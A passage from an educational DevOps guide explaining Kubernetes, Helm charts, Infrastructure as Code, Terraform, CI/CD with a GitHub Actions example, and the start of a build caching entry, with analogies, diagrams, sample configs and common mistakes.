**🌍 Real-world usage:** Kubernetes was the first project to graduate in the CNCF and is now the standard way to run containers at scale. Every major cloud offers it as a managed service (EKS, GKE, AKS). Spotify moved from its own in-house orchestrator (Helios) to Kubernetes. Shopify and Airbnb run large parts of their platforms on it. OpenAI has written publicly about scaling single Kubernetes clusters to thousands of nodes. Popular add-ons include Helm (#71), Argo CD (GitOps, #72), Prometheus (monitoring) and cert-manager (TLS certificates).

**⚖️ Trade-offs:**

| Option | When to use | Downside |
|---|---|---|
| Docker / compose on one VM | Hobby project, small internal tool | No self-healing across machines, manual scaling |
| Serverless containers (Cloud Run, AWS Fargate, Heroku-style PaaS) | Small team that wants zero cluster management | Less control, platform-specific limits, can cost more at large scale |
| Managed Kubernetes (EKS, GKE, AKS) | Many services, need portability and fine control | Real learning curve; you still manage apps, nodes, upgrades |
| Self-managed Kubernetes | Special needs (on-premises, strict compliance) | You operate etcd, upgrades and the control plane yourself; hard |

**⚠️ Common mistakes:**
- **No resource requests/limits.** The scheduler packs Pods badly, one greedy Pod starves its neighbours, and the kernel kills containers that run out of memory (**OOMKilled**).
- **Missing or wrong probes.** Without a readiness probe, users hit Pods that are still starting. An over-aggressive liveness probe restarts healthy-but-slow apps in an endless loop.
- **Believing Secrets are encrypted.** They are only base64-encoded by default. Enable encryption at rest, lock down access (RBAC, role-based access control), or use an external secret manager (Vault, AWS Secrets Manager).
- **Running stateful databases like stateless apps.** Use StatefulSets and persistent volumes, or simply use a managed database.
- **Adopting Kubernetes too early.** For one small app, the operational cost can outweigh the benefits.

**🎯 Remember:** You declare the desired state in YAML; Kubernetes' control loops keep making reality match it. That's how it heals, scales and rolls out updates without humans.

**🔗 See also:** [#69 Docker](#69-docker), [#71 Helm Charts](#71-helm-charts), [#72 Infrastructure as Code](#72-infrastructure-as-code), [#74 CI/CD](#74-cicd), [#78 Rolling Deployments](#78-rolling-deployments)

---


### 71. Helm Charts

> **In one line:** Helm is a package manager for Kubernetes: one command installs (or upgrades, or rolls back) a whole app made of many YAML files, filled in with your settings.

**🏠 Real-life analogy:** Think of a form letter: "Dear ___, your order of ___ will arrive on ___." You write the letter once and fill in the blanks for each customer. A Helm **chart** is that form letter for Kubernetes: the YAML is written once with blanks, and a small settings file fills them in for dev, staging or production. And just like `apt` installs software on Ubuntu, or `npm` installs JavaScript libraries, `helm install` installs a ready-made app into your cluster.

**❓ What problem does it solve?** A real app on Kubernetes isn't one YAML file. It's a Deployment, Service, Ingress, ConfigMap, Secret, autoscaler, service account and more. Without Helm:
- You copy-paste the same 10 files for dev, staging and prod, changing a few values (replicas, image tag, domain). The copies slowly **drift** apart.
- There's no single "version" of the app as a whole, and no one-command rollback.
- Installing third-party software (Prometheus, Redis, cert-manager) means writing or copying hundreds of lines of YAML yourself.

**⚙️ How it works:**
1. **Chart:** a folder (or packaged `.tgz` file) containing templated Kubernetes YAML plus metadata.
2. **`values.yaml`:** the default settings. You override them per environment with `-f values-prod.yaml` or single values with `--set image.tag=1.4.3`.
3. **Templates:** YAML files with blanks written in Go template syntax, such as `{{ .Values.replicaCount }}`. Helm can also use `if`, loops and helper snippets.
4. **Release:** one installed copy of a chart in a cluster, with a name you choose (e.g., `shop`). You can install the same chart twice under different names.
5. **Revision:** every install, upgrade or rollback creates a new numbered revision of the release. Helm stores the history (as Secrets in the release's namespace), so it knows exactly what to roll back to. A rollback does not erase history; it creates a **new** revision that copies an old one.
6. **Repositories:** charts are shared via chart repositories or OCI registries (the same kind of registry that stores Docker images). You search for public charts on **Artifact Hub** (artifacthub.io), a CNCF project.
7. Since Helm 3 (2019), Helm is just a client-side tool that talks to the Kubernetes API. The old in-cluster component, Tiller, is gone.

Chart structure:

```text
web/
├── Chart.yaml          # chart name, chart version, app version
├── values.yaml         # default settings (the 'blanks')
├── charts/             # other charts this one depends on (sub-charts)
└── templates/
    ├── deployment.yaml
    ├── service.yaml
    ├── ingress.yaml
    ├── _helpers.tpl    # reusable template snippets
    └── NOTES.txt       # message printed after install
values-staging.yaml     # per-environment overrides (often kept next to the chart)
values-prod.yaml
```

```mermaid
flowchart LR
    Tpl["templates/*.yaml<br/>with blanks"] --> Helm["helm install / upgrade"]
    Vals["values.yaml<br/>+ values-prod.yaml"] --> Helm
    Helm --> Yaml["Final Kubernetes YAML"]
    Yaml --> Cluster["Kubernetes cluster<br/>release 'shop'"]
```

Releases and revisions over time:

```mermaid
flowchart LR
    R1["Revision 1<br/>helm install<br/>image 1.4.2"] --> R2["Revision 2<br/>helm upgrade<br/>image 1.4.3 (buggy)"]
    R2 --> R3["Revision 3<br/>helm rollback shop 1<br/>image 1.4.2 again"]
    R3 --> R4["Revision 4<br/>helm upgrade<br/>image 1.4.4 (fixed)"]
```

**💻 Example:**

`Chart.yaml` and the default `values.yaml`:

```yaml
# Chart.yaml
apiVersion: v2
name: web
description: Our shop's web frontend
version: 0.3.0          # version of the chart (the packaging)
appVersion: "1.4.2"     # version of the app it deploys
---
# values.yaml (defaults, good for dev)
replicaCount: 1
image:
  repository: ghcr.io/acme/web
  tag: "1.4.2"
ingress:
  enabled: false
  host: ""
```

A template with blanks, `templates/deployment.yaml`. This is a **Helm template**, not directly
parseable Kubernetes YAML; `helm template` must fill in the expressions first:

```yaml
apiVersion: apps/v1
kind: Deployment
metadata:
  name: {{ .Release.Name }}-web          # e.g., 'shop-web'
spec:
  replicas: {{ .Values.replicaCount }}   # filled from values files
  selector:
    matchLabels:
      app: {{ .Release.Name }}-web
  template:
    metadata:
      labels:
        app: {{ .Release.Name }}-web
    spec:
      containers:
        - name: web
          image: "{{ .Values.image.repository }}:{{ .Values.image.tag }}"
          ports:
            - containerPort: 3000
```

Production overrides only what differs, `values-prod.yaml`:

```yaml
replicaCount: 6
ingress:
  enabled: true
  host: shop.example.com
```

Commands:

```bash
helm create web                                    # scaffold a new chart
helm template shop ./web -f values-prod.yaml       # render YAML locally (no install)
helm install shop ./web -f values-prod.yaml -n prod            # revision 1
helm upgrade shop ./web -f values-prod.yaml --set image.tag=1.4.3 -n prod   # revision 2
helm list -n prod                                  # releases in this namespace
helm history shop -n prod                          # all revisions of 'shop'
helm rollback shop 1 -n prod                       # revision 3 = copy of revision 1
helm upgrade --install shop ./web -f values-prod.yaml -n prod --wait   # CI-friendly
helm uninstall shop -n prod

# Install third-party software from a public chart repository
helm repo add prometheus-community https://prometheus-community.github.io/helm-charts
helm install monitoring prometheus-community/kube-prometheus-stack -n monitoring --create-namespace
```

`helm upgrade --install` means "install if it doesn't exist, otherwise upgrade", which is handy in CI/CD pipelines.

**🌍 Real-world usage:** Helm is a CNCF graduated project and the most common way to install third-party software on Kubernetes. Projects like Prometheus, Grafana, cert-manager, Argo CD and many ingress controllers publish official charts, and Artifact Hub lists thousands of them. Many companies also package their own services as charts and let GitOps tools (Argo CD, Flux) deploy them.

**Helm vs Kustomize** (the other popular way to manage Kubernetes YAML):

| | Helm | Kustomize |
|---|---|---|
| Approach | Templates with blanks + values files | Plain YAML "base" + small patches ("overlays") per environment, no templates |
| Packaging and sharing | Versioned charts, repositories, Artifact Hub | No package format; just folders in Git |
| Releases and rollback | Built in (`helm history`, `helm rollback`) | None; rely on Git, kubectl or Argo CD |
| Readability | Heavy templating can get messy | Files stay valid, readable YAML |
| Built into kubectl | No, separate CLI | Yes, `kubectl apply -k` |
| Best for | Distributing apps to others, installing third-party software | Your own apps with small per-environment differences |

**⚖️ Trade-offs:**

| Pros | Cons |
|---|---|
| One command installs a whole app | Go template syntax is easy to get wrong (whitespace, indentation) |
| Per-environment values instead of copy-paste | Over-templated charts become unreadable |
| Built-in release history and rollback | Another tool and layer to debug |
| Huge public ecosystem of charts | Public charts can hide insecure defaults if you don't read them |

**⚠️ Common mistakes:**
- **Putting real secrets in `values.yaml`** and committing it to Git. Use a secret manager, Sealed Secrets, or the External Secrets Operator.
- **Templating everything** "just in case". Only make values configurable when they really differ.
- **Not pinning chart versions** (`--version 58.2.1`), so a reinstall silently pulls a newer chart with breaking changes.
- **Changing Helm-managed resources by hand** with `kubectl edit`. The next `helm upgrade` overwrites it, or the release and the cluster drift apart.
- **Skipping `helm template` / `helm diff`** before upgrading production, so you don't know what will actually change.

**🎯 Remember:** Chart = templated YAML package; values = the blanks; release = an installed copy; revision = each change, so rollback is one command.

**🔗 See also:** [#70 Kubernetes](#70-kubernetes), [#72 Infrastructure as Code](#72-infrastructure-as-code), [#74 CI/CD](#74-cicd)

---

### 72. Infrastructure as Code

> **In one line:** Infrastructure as Code (IaC) means describing your servers, networks and databases in text files, so a tool can build them exactly the same way every time.

**🏠 Real-life analogy:** Grandma cooks a famous dish from memory. It's delicious, but nobody else can make it, and it tastes slightly different every time. Once someone writes the recipe down, anyone can follow it, improve it, and keep old versions. IaC is writing down the recipe for your infrastructure instead of building it by memory and mouse clicks. It's also like a LEGO instruction booklet: anyone can rebuild the exact same model.

**❓ What problem does it solve?** Building infrastructure by clicking around a cloud web console (sometimes jokingly called **"ClickOps"**) causes:
- **Snowflake servers:** every server is unique and hand-tuned. Nobody remembers how it was built, so nobody dares to touch it.
- **Drift:** staging and production slowly become different, so "it worked in staging" stops meaning anything.
- **No review:** one wrong click can open a database to the whole internet, and no one sees it before it happens.
- **No history:** who changed that firewall rule, when, and why? The console can't tell you the "why".
- **Slow recovery:** if a region or account is lost, rebuilding hundreds of resources by hand takes days.

Manual operational commands are risky too. In February 2017, a mistyped input to a command during routine debugging removed far more Amazon S3 servers than intended, causing a multi-hour outage in AWS's us-east-1 region. AWS's fix included more automation and safety limits on such tools. Reviewed, automated changes are the lesson.

**⚙️ How it works:**
1. You describe infrastructure in files (HCL, YAML, JSON, or a real programming language).
2. The files live in **Git**, so you get history, blame, diffs and code review for free.
3. A tool compares "what the files say" with "what exists in the cloud" and makes only the needed changes.
4. Most IaC is **declarative**: you describe the end result and the tool works out the steps.

| | Declarative | Imperative |
|---|---|---|
| You describe | **What** you want: "3 servers exist" | **How** to do it: "create a server" (three times) |
| Running it twice | Second run changes nothing (**idempotent**: same result no matter how many times you run it) | May create 6 servers or fail with "already exists" |
| Examples | Terraform, CloudFormation, Kubernetes YAML | Bash scripts calling the AWS CLI, step-by-step scripts |
| Analogy | Tell the taxi driver the address | Give the driver turn-by-turn directions |

5. **Tools:**
   - **Terraform / OpenTofu:** declarative, works with almost any cloud or SaaS through "providers". The most widely used (see #73).
   - **AWS CloudFormation:** AWS's own declarative YAML/JSON service. **AWS CDK** lets you write TypeScript or Python that generates CloudFormation.
   - **Pulumi:** IaC in real programming languages (TypeScript, Python, Go, C#) across many clouds.
   - **Ansible:** mainly **configuration management**: installing packages and configuring software *on* servers over SSH, without an agent. (Chef and Puppet are older tools in the same space.) Terraform *creates* the server; Ansible *sets it up*.
6. **Workflow:** change the code in a branch → open a pull request → CI runs a **plan** (a preview of changes) and posts it on the PR → a teammate reviews the code *and* the plan → merge → CI **applies** it.
7. **GitOps:** Git is the single source of truth for what should be running. An agent inside the cluster (**Argo CD** or **Flux**) keeps pulling from Git and syncing the cluster to match. If someone changes something by hand, the agent notices the drift and can undo it. Rolling back is just `git revert`.
8. **Immutable infrastructure:** never patch or log into running servers to change them. Build a new image (container image or VM image) and *replace* the old servers. A popular saying: treat servers like **cattle, not pets**. Pets get names and nursing when sick. Cattle are numbered and replaced.

```mermaid
flowchart LR
    Dev["Engineer edits .tf files"] --> PR["Pull request in Git"]
    PR --> Plan["CI runs plan<br/>posts preview on PR"]
    Plan --> Review{"Reviewer approves<br/>code and plan?"}
    Review -->|"No"| Dev
    Review -->|"Yes, merge"| Apply["CI runs apply"]
    Apply --> Cloud["Cloud resources<br/>updated"]
```

GitOps uses a **pull** model: instead of CI pushing changes into the cluster, an agent in the cluster pulls from Git.

```mermaid
flowchart LR
    Dev["Engineer"] -->|"merge PR"| Git["Git repo<br/>desired state"]
    Argo["Argo CD or Flux<br/>inside the cluster"] -->|"pulls every few minutes"| Git
    Argo -->|"syncs"| Cluster["Kubernetes cluster<br/>actual state"]
    Cluster -.->|"drift detected"| Argo
```

**💻 Example:**

The same S3 bucket, imperative vs declarative:

```bash
# Imperative: step-by-step commands. Run it twice and step 1 fails ("already exists").
aws s3api create-bucket --bucket acme-user-uploads-prod --region us-east-1
aws s3api put-bucket-versioning --bucket acme-user-uploads-prod \
  --versioning-configuration Status=Enabled
```

```yaml
# Declarative (AWS CloudFormation): describe the end result. Safe to re-apply.
AWSTemplateFormatVersion: "2010-09-09"
Resources:
  UploadsBucket:
    Type: AWS::S3::Bucket
    Properties:
      BucketName: acme-user-uploads-prod
      VersioningConfiguration:
        Status: Enabled
```

Configuration management with an Ansible playbook (runs over SSH, safe to re-run):

```yaml
# playbook.yml  ->  run with: ansible-playbook -i inventory.ini playbook.yml
- name: Set up web servers
  hosts: webservers
  become: true                    # use sudo
  tasks:
    - name: Install nginx
      ansible.builtin.apt:
        name: nginx
        state: present            # 'make sure it is installed', not 'install again'
    - name: Start nginx now and on every boot
      ansible.builtin.service:
        name: nginx
        state: started
        enabled: true
```

**🌍 Real-world usage:** Most companies with a serious cloud footprint manage it with Terraform/OpenTofu, CloudFormation/CDK or Pulumi. HashiCorp's Terraform is the most widespread multi-cloud tool. Argo CD (created at Intuit) and Flux (created at Weaveworks, which coined the term "GitOps" in 2017) are both CNCF graduated projects used to run Kubernetes clusters from Git. Ansible (Red Hat) is widely used to configure fleets of servers and network devices.

**⚖️ Trade-offs:**

| Approach | When to use | Downside |
|---|---|---|
| Clicking in the console | Exploring and learning a new service | No review, history or repeatability |
| Imperative scripts | Small one-off tasks | Not idempotent; hard to know the current state |
| Declarative IaC (Terraform, CloudFormation) | Anything that lives longer than a few days | Learning curve; state and drift to manage |
| GitOps (Argo CD, Flux) | Kubernetes apps and cluster config | Mostly Kubernetes-focused; another system to run |

**⚠️ Common mistakes:**
- **Mixing IaC with manual console changes.** The code and reality drift apart, and the next apply undoes someone's "quick fix".
- **Putting secrets in IaC files** in plain text. Reference a secret manager instead.
- **Applying without reviewing the plan**, especially lines that say "destroy" or "replace".
- **One giant repo/state for everything**, so every change risks everything (a big "blast radius").
- **Treating IaC as a one-time setup** instead of the only way changes are made.

**🎯 Remember:** If it isn't in code, it doesn't exist. Infrastructure changes should go through Git, review and automation, just like application code.

**🔗 See also:** [#73 Terraform](#73-terraform), [#74 CI/CD](#74-cicd), [#71 Helm Charts](#71-helm-charts), [#70 Kubernetes](#70-kubernetes)

---

### 73. Terraform

> **In one line:** Terraform is a tool where you write down which cloud resources you want, and it creates, changes or deletes real resources until they match.

**🏠 Real-life analogy:** You hire a personal shopper and hand them a list: "My fridge should contain 2 apples and 1 milk." The shopper keeps a **notebook** of what they already bought for you. They check the notebook and the fridge, then tell you the **plan**: "I'll buy 1 more apple; milk is already there." You approve, and they do it. That notebook is Terraform's **state file**. If the notebook is lost, the shopper doesn't know what they bought and may buy everything twice.

**❓ What problem does it solve?** Everything from #72, plus:
- **One tool for everything:** the same language manages AWS, Google Cloud, Azure, Cloudflare DNS, GitHub repos, Datadog monitors and thousands of other services through providers.
- **Automatic ordering:** Terraform figures out that the network must exist before the server that lives in it.
- **Safe previews:** `plan` shows exactly what will be created, changed or destroyed *before* anything happens.

**⚙️ How it works:**
1. **HCL** (HashiCorp Configuration Language): simple blocks like `resource "type" "name" { key = value }`. Files end in `.tf`.
2. **Providers:** plugins that know how to talk to an API (`aws`, `google`, `azurerm`, `cloudflare`, `github`, `kubernetes`...). Downloaded by `terraform init`.
3. **Resources:** the things to create (`aws_s3_bucket`, `aws_instance`). **Data sources** only *read* existing things (e.g., "find the latest Ubuntu image").
4. **Variables** are inputs (like function parameters). **Outputs** are results (like return values), such as a server's IP address. **Locals** are named helper values.
5. **Modules:** reusable folders of Terraform code, like functions. For example, one "web-service" module used for 20 services. Public modules live on the Terraform Registry.
6. **State:** `terraform.tfstate` is a JSON file mapping each resource in your code to the real thing in the cloud (its ID and attributes). Without it, Terraform can't know what it manages.
   - State often contains **secrets in plain text** (database passwords, keys). Never commit it to Git.
   - In a team, store it **remotely** with **locking**, so two people can't apply at the same time and corrupt it. Common choices: an **S3 bucket** with locking (newer versions lock using a lock file in S3; older setups use a DynamoDB table), or **Terraform Cloud** (now called HCP Terraform).
7. **Workflow:** `init` (download providers, connect to the state backend) → `plan` (preview: `+` create, `~` change, `-` destroy, `-/+` replace) → `apply` (make the changes) → `destroy` (delete everything when no longer needed).
8. **Drift detection:** if someone changes a resource by hand in the console, the next `plan` shows the difference and offers to put it back. Many teams run a scheduled `plan` in CI every night and alert if it isn't empty.
9. **OpenTofu:** in August 2023, HashiCorp changed Terraform's license from an open-source license (MPL 2.0) to the Business Source License. The community created **OpenTofu**, an open-source fork now under the Linux Foundation. Its `tofu` command is largely a drop-in replacement (`tofu init`, `tofu plan`, `tofu apply`).

```mermaid
flowchart LR
    Code["Your .tf code<br/>what you want"] --> TF["Terraform"]
    StateFile[("State file<br/>what Terraform manages")] --> TF
    Cloud["Real cloud<br/>what actually exists"] --> TF
    TF --> PlanOut["Plan = the difference<br/>+ create, ~ change, - destroy"]
```

```mermaid
flowchart LR
    Write["Write .tf files"] --> Init["terraform init<br/>providers + state backend"]
    Init --> Plan["terraform plan<br/>preview changes"]
    Plan --> Review{"Plan looks right?"}
    Review -->|"No"| Write
    Review -->|"Yes"| Apply["terraform apply<br/>make the changes"]
    Apply --> State[("Remote state in S3<br/>updated and unlocked")]
    Apply -.->|"when no longer needed"| Destroy["terraform destroy"]
```

**💻 Example:** an S3 bucket and an EC2 virtual server, with variables, outputs and remote state.

```hcl
# versions.tf
terraform {
  required_providers {
    aws = {
      source  = "hashicorp/aws"
      version = "~> 6.0"            # pin the provider's major version
    }
  }
  backend "s3" {                    # remote state: shared and locked
    bucket       = "acme-terraform-state"
    key          = "shop/prod/terraform.tfstate"
    region       = "us-east-1"
    encrypt      = true
    use_lockfile = true             # lock so two applies can't run at once
  }
}

provider "aws" {
  region = var.region
}
```

```hcl
# variables.tf
variable "region" {
  type    = string
  default = "us-east-1"
}

variable "environment" {
  type        = string
  description = "dev, staging or prod"
}

variable "instance_type" {
  type    = string
  default = "t3.micro"
}
```

```hcl
# main.tf
resource "aws_s3_bucket" "uploads" {
  bucket = "acme-uploads-${var.environment}"   # bucket names are globally unique
  tags   = { Environment = var.environment }
}

data "aws_ami" "ubuntu" {                       # READ the latest Ubuntu 24.04 image
  most_recent = true
  owners      = ["099720109477"]                # Canonical, the publisher of Ubuntu
  filter {
    name   = "name"
    values = ["ubuntu/images/hvm-ssd-gp3/ubuntu-noble-24.04-amd64-server-*"]
  }
}

resource "aws_instance" "web" {
  ami           = data.aws_ami.ubuntu.id        # a reference creates an ordering dependency
  instance_type = var.instance_type
  tags          = { Name = "web-${var.environment}" }
}

output "web_public_ip" {
  value = aws_instance.web.public_ip
}
```

Per-environment values go in a small file such as `prod.tfvars` (`environment = "prod"` and `instance_type = "t3.small"`). Then:

```bash
terraform init                                     # download providers, connect to S3 state
terraform fmt && terraform validate                # tidy formatting, catch typos
terraform plan -var-file=prod.tfvars -out=tfplan   # preview and save the exact plan
terraform apply tfplan                             # apply exactly what was reviewed
terraform output web_public_ip
terraform plan -refresh-only -var-file=prod.tfvars # drift check: what changed outside Terraform?
terraform destroy -var-file=prod.tfvars            # delete everything (careful!)
```

What a plan looks like (trimmed). Read every line before you type "yes":

```text
  # aws_instance.web will be updated in-place
  ~ resource "aws_instance" "web" {
      ~ instance_type = "t3.micro" -> "t3.small"
    }

  # aws_s3_bucket.uploads will be created
  + resource "aws_s3_bucket" "uploads" {
      + bucket = "acme-uploads-prod"
    }

Plan: 1 to add, 1 to change, 0 to destroy.
```

If someone had changed the instance type by hand in the console, a plan like this is also how you'd **spot the drift**: Terraform wants to set it back to what the code says.

**🌍 Real-world usage:** Terraform (released by HashiCorp in 2014) is the most widely used multi-cloud IaC tool, with providers for all major clouds and thousands of other services. Teams often run it through CI with tools like Atlantis or HCP Terraform, which post plans on pull requests and apply after merge. OpenTofu is used by organizations that want a fully open-source option. Common alternatives are CloudFormation/CDK (AWS-only) and Pulumi (general-purpose languages).

**⚖️ Trade-offs:**

| Pros | Cons |
|---|---|
| One language for many clouds and SaaS tools | State file must be protected, shared and locked |
| `plan` previews changes before they happen | HCL is limited compared to a real programming language |
| Huge ecosystem of providers and modules | Some changes silently mean "destroy and recreate" |
| Declarative and reviewable in Git | Large states make plans slow; refactoring resources needs care |

**⚠️ Common mistakes:**
- **Committing `terraform.tfstate` or `*.tfvars` files with secrets** to Git. Add them to `.gitignore`, use remote encrypted state, and keep secrets in a secret manager.
- **Making manual changes in the console** for resources Terraform manages. The next apply will "fix" them back, or fail in confusing ways.
- **One huge, monolithic state** for the whole company. Plans take ages and one mistake can hit everything. Split state per environment and per component (network, database, app).
- **Not reading the plan.** A `-/+` (replace) on a database means "delete it and create a new empty one". Use `lifecycle { prevent_destroy = true }` on precious resources.
- **Not pinning provider and module versions**, so the same code behaves differently next month.

**🎯 Remember:** `init → plan → apply`. The plan is the code review for reality, and the state file is Terraform's memory: keep it remote, locked, encrypted and out of Git.

**🔗 See also:** [#72 Infrastructure as Code](#72-infrastructure-as-code), [#74 CI/CD](#74-cicd), [#76 Dependency Hell](#76-dependency-hell)

---


### 74. CI/CD

> **In one line:** CI/CD is a robot assembly line that automatically checks, builds and ships every code change, so releasing software becomes boring and safe.

**🏠 Real-life analogy:** A car factory doesn't build a whole car and only then check if it works. Every station on the assembly line checks its piece: the doors fit, the brakes work, the paint is clean. A faulty part is caught right where it happens, not after the car is sold. A CI/CD pipeline is that assembly line for code: every change passes through automatic inspection stations before it reaches customers.

**❓ What problem does it solve?** Without CI/CD:
- Developers work on separate branches for weeks, then spend days in **"merge hell"** combining their changes.
- Tests are run by hand (or forgotten), so bugs are found late, when they're expensive to fix.
- Releases are rare, big and scary: a long manual checklist at night, where one forgotten step breaks production.

A famous example of manual deployment risk: on August 1, 2012, Knight Capital deployed new trading code by hand to eight servers, but the new code was not copied to one of them. Old, unused code on that server came back to life and sent a flood of unintended orders. The firm lost over $400 million in about 45 minutes. An automated, verified deployment would have made "7 of 8 servers updated" impossible to miss.

**⚙️ How it works:**
1. **Continuous Integration (CI):** everyone merges **small** changes into the main branch **often** (at least daily). Every push and pull request automatically triggers a build and the tests. If the build breaks ("goes red"), fixing it is the team's top priority.
2. **Continuous Delivery / Deployment (CD):** after CI, the same pipeline packages the app and deploys it, first to a test environment, then to production.

| | Continuous Delivery | Continuous Deployment |
|---|---|---|
| Every change is... | Automatically built, tested and **ready** to release | Automatically **released** to production |
| Production release | A human clicks "approve" / "deploy" | No human step; passing all checks means it goes live |
| What you need | Good automated tests | Excellent tests, monitoring, feature flags, automatic rollback |
| Common for | Regulated industries, mobile apps (store review), B2B releases | Web services and SaaS that deploy many times a day |

3. **Pipeline stages:** fast, cheap checks run first so failures come back quickly ("fail fast").
4. **Build once, deploy many:** build the Docker image **once**, tag it with the Git commit SHA, and promote that *same* image from staging to production. Never rebuild for production, or you'd ship something you didn't test.
5. **Safe rollout strategies:** rolling updates (replace a few servers at a time), **blue-green** (switch traffic from the old copy to a full new copy), and **canary** (send a small percentage of users to the new version first and watch the metrics).
6. **Trunk-based development:** everyone works off one main branch ("trunk"). Feature branches live for hours or a day or two, not weeks. Unfinished features are merged but hidden behind **feature flags** (on/off switches in config). This is what makes CI actually *continuous*.
7. **Keeping pipelines fast** (aim for roughly 10 minutes or less, or people stop waiting for it):
   - Run independent jobs **in parallel** (lint, unit tests and the image build at the same time).
   - **Cache** dependencies and Docker layers (see #75).
   - Only build and test what changed (monorepo tools can detect "affected" projects).
   - Fix or quarantine **flaky tests** (tests that randomly pass or fail). They destroy trust.
   - Use bigger runners for heavy jobs; move slow end-to-end suites to a later stage.

```mermaid
flowchart LR
    Push["git push or PR"] --> Lint
    subgraph CIStage["Continuous Integration"]
        Lint["Lint"] --> Unit["Unit tests"]
        Unit --> Build["Build Docker image"]
        Build --> Scan["Security scan"]
    end
    subgraph CDStage["Continuous Delivery"]
        Staging["Deploy to staging"] --> Integ["Integration tests"]
        Integ --> Approve{"Manual approval"}
        Approve -->|"Approved"| Prod["Deploy to production"]
    end
    Scan --> Staging
    Approve -->|"Rejected"| Fix["Stop and fix"]
```

Remove the manual approval box and you have Continuous **Deployment**.

```mermaid
flowchart LR
    Main1["main"] --> Main2["main"]
    Main2 --> Main3["main"]
    Main3 --> Main4["main"]
    FeatA["Branch A<br/>a few hours"] -->|"small PR, CI green"| Main2
    FeatB["Branch B<br/>one day"] -->|"small PR, CI green"| Main3
    FeatC["Branch C<br/>behind a feature flag"] -->|"small PR, CI green"| Main4
```

**💻 Example:** a GitHub Actions workflow. On every push and pull request it runs lint and tests. On `main` only, it also builds the Docker image and pushes it to GitHub Container Registry.

```yaml
# .github/workflows/ci.yml
name: CI
on:
  push:
    branches: [main]
  pull_request:

jobs:
  test:
    runs-on: ubuntu-latest
    steps:
      - uses: actions/checkout@v4
      - uses: actions/setup-node@v4
        with:
          node-version: 20
          cache: npm                  # reuse downloaded packages (see #75)
      - run: npm ci                   # exact versions from package-lock.json
      - run: npm run lint
      - run: npm test

  build-and-push:
    needs: test                       # only runs if the test job passed
    if: github.ref == 'refs/heads/main'
    runs-on: ubuntu-latest
    permissions:
      contents: read
      packages: write                 # allow pushing to ghcr.io
    steps:
      - uses: actions/checkout@v4
      - uses: docker/login-action@v3
        with:
          registry: ghcr.io
          username: ${{ github.actor }}
          password: ${{ secrets.GITHUB_TOKEN }}   # built-in token, no secret to manage
      - uses: docker/build-push-action@v6
        with:
          push: true
          # tag = commit SHA, so every image maps to exact code (repo name must be lowercase)
          tags: ghcr.io/${{ github.repository }}:${{ github.sha }}
```

A deploy job would come next, for example running `helm upgrade --install` (#71) with `--set image.tag=${{ github.sha }}`, or committing the new tag to a GitOps repo watched by Argo CD (#72). GitHub **environments** can add a "required reviewers" approval before the production job.

**🌍 Real-world usage:** Popular tools are **GitHub Actions** (built into GitHub), **GitLab CI/CD** (built into GitLab), **Jenkins** (the long-standing self-hosted option with a huge plugin ecosystem), **CircleCI**, Buildkite and Azure Pipelines. For Kubernetes delivery, **Argo CD** and Flux handle the CD half via GitOps, and **Spinnaker** (created at Netflix) handles multi-cloud deployments. Large web companies such as Amazon, Netflix and GitHub deploy to production many times a day, which only works because each change is small and the pipeline is fully automated.

**⚖️ Trade-offs:**

| Pros | Cons |
|---|---|
| Bugs are caught minutes after they're written | Building and maintaining good pipelines takes real effort |
| Small, frequent releases are low-risk and easy to roll back | Only as good as your tests: weak tests mean bugs ship faster |
| No forgotten manual steps; every release is identical | Slow or flaky pipelines frustrate developers |
| History of exactly what was deployed, when and by whom | CI systems hold powerful credentials, so they're an attack target |

**⚠️ Common mistakes:**
- **Long-lived feature branches**, which turns "continuous integration" into "occasional painful integration".
- **Ignoring flaky tests** or re-running until green. Soon nobody trusts a red build.
- **Rebuilding the artifact for each environment** instead of promoting the same tested image.
- **Leaking secrets**: hard-coding tokens in workflow files or printing them in logs. Use the CI's secret store and least-privilege permissions.
- **No rollback plan**: every deploy should have a one-click (or automatic) way back.

**🎯 Remember:** CI = merge small changes often, and every push is built and tested automatically. Delivery = always ready to release with one click; Deployment = released automatically.

**🔗 See also:** [#75 Build Caching](#75-build-caching), [#69 Docker](#69-docker), [#71 Helm Charts](#71-helm-charts), [#72 Infrastructure as Code](#72-infrastructure-as-code), [#77 Feature Flags](#77-feature-flags), [#79 Blue-Green Deployment](#79-blue-green-deployment), [#80 Canary Releases](#80-canary-releases), [#81 Rollbacks](#81-rollbacks)

---

### 75. Build Caching

> **In one line:** Build caching means saving the slow work from the last build (downloaded libraries, compiled files, Docker layers) so the next build can skip it.

**🏠 Real-life analogy:** Imagine baking bread and driving to the store for flour every single time, even though the recipe hasn't changed. A smart baker keeps a pantry and only restocks when the recipe changes. Build caching is the pantry: as long as the ingredients list (the lockfile) is the same, you reuse what you already have.

**❓ What problem does it solve?** CI machines usually start **completely empty** on every run. So each pipeline:
- Downloads hundreds of megabytes of packages (npm, pip, Maven) from the internet.
- Rebuilds every Docker layer from scratch.
- Recompiles code that didn't change.

A 3-minute job becomes a 20-minute job. Developers wait, switch context, batch up changes to avoid waiting, and CI loses its "fast feedback" value. You also pay for all those extra runner minutes.

**⚙️ How it works:**
1. **Cache key:** a fingerprint (a **hash**, a short code computed from file contents) of everything that affects the result, e.g., `linux-npm-<hash of package-lock.json>`. Same inputs give the same key.
2. **Hit or miss:** if a cache with that key exists, restore it (a **cache hit**, fast). If not (a **cache miss**), do the slow work and save the result under the key for next time.
3. **Dependency caches:** cache the package manager's download folder: `~/.npm` (npm), `~/.cache/pip` (pip), `~/.m2/repository` (Maven), `~/.gradle/caches` (Gradle).
4. **Docker layer caching:** Docker reuses a layer if its instruction *and* the files it uses are unchanged. But once one layer changes, **every layer after it** is rebuilt. So order your Dockerfile from "rarely changes" to "changes all the time": dependency list and install first, source code last.
5. **BuildKit cache mounts:** `RUN --mount=type=cache,target=/root/.npm npm ci` keeps the npm download folder between builds even when the layer itself must re-run.
6. **Remote / distributed caches:** share build outputs across *all* developers and CI machines. If anyone has already built this exact input, everyone else just downloads the result. Tools: **Bazel** remote cache, **Gradle** build cache, **Turborepo** remote cache, **Nx** (Nx Cloud).
7. **Cache invalidation (deciding when a cache is out of date):** the key must include *everything* that changes the output: lockfile, OS, language version, build flags. Miss something and you get **stale** results, meaning the build uses outdated files and behaves strangely.
8. **Hermetic builds:** a **hermetic** build depends only on its declared inputs, so the same inputs always give the same output. Builds that read the current time, download "latest" versions, or depend on random environment variables are **non-hermetic**. Their caches are either wrong or never hit.

```mermaid
flowchart TD
    Start["CI job starts on an empty machine"] --> Key["Compute key<br/>hash of package-lock.json"]
